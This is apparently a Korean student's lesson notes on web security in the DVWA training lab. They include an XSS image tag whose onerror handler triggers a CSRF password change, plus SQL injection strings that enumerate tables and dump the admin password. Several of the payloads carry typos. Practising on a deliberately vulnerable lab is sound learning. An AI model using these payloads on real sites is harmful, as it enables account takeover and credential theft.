 오늘의 수업
-

### 비밀번호를 XXS를 사용해서 바꾸기 실습
    실행이 직접적으로 보지는 못하여 실패 
    그냥 
                        
      <img+src="https://ugc.production.linktr.ee/jl9DQQM1QxiPQklpiKii_GjzZ0fFXW61vAGZx"+oneerror='this.src="http://192.168.126.128:9980/vulnerabilities/csrf/?password_new=test&password_conf=test&Change=Change"'/>
    
    이러한 코드를 사용한다 정도만 알려둬야 함.

### sql injestion(sql를 주입하다)의 주제

- 오늘의 신기한 화면들

![image](https://github.com/user-attachments/assets/558caa3b-4c54-45ab-a867-7cd0caf61573)

![image](https://github.com/user-attachments/assets/faca6c64-8176-4aa9-8fbd-724c53761f16)

![image](https://github.com/user-attachments/assets/2df0e038-2a10-4baa-a083-67de0cc74224)

이러한 쿼리문 적기

    select first_namem, last_name from users where usser_id = '$id';
    
    select first_namem, last_name from users where usser_id = ''or1=1#';
    
    select first_namem, last_name from users where usser_id = ''union select 1, detabase()#';
    
    select first_namem, last_name from users where usser_id = ''union 
    select 1, table_name from information_schema.table where table_schema = 'dvwa'#';

    select first_namem, last_name from users where usser_id = ''union 
    select user, password from users where user = 'admin'#';

다음 시간 예고

안보이는 sql injestion에 대하여

![image](https://github.com/user-attachments/assets/aa40ffed-d851-4d27-96e5-9e4a378f9e7b)

![image](https://github.com/user-attachments/assets/ecdaf68c-efff-4771-a908-66ca1e3e333a)

        1 ' and length(database())=# 를 코드로 다음시간에 할 예정

---

<details>
<summary> 소감 </summary>
    
    이해는 어느정도 되었고 수업이 되게 흥미롭다는 느낌을 받은 오늘의 수업이였다.
    여러가지를 찾으면서 어떤 식으로 하는지를 알게 되었고 점점 이러한 수업과 보안에 대해서
    익숙해지면서 이해가 조금씩 더 잘 되고 있는거 같다는 생각이 들었다.
    하지만, 다음 시간은 이해하기 좀 어려울거 같다 쿼리문을 활용하여 보이지 않는 값을
    참인지 거짓인지를 판별하는 걸 배운다는데 이해를 하려면 시간이 좀 많이 걸릴거 같다는 생각이 든다...
    
</details>
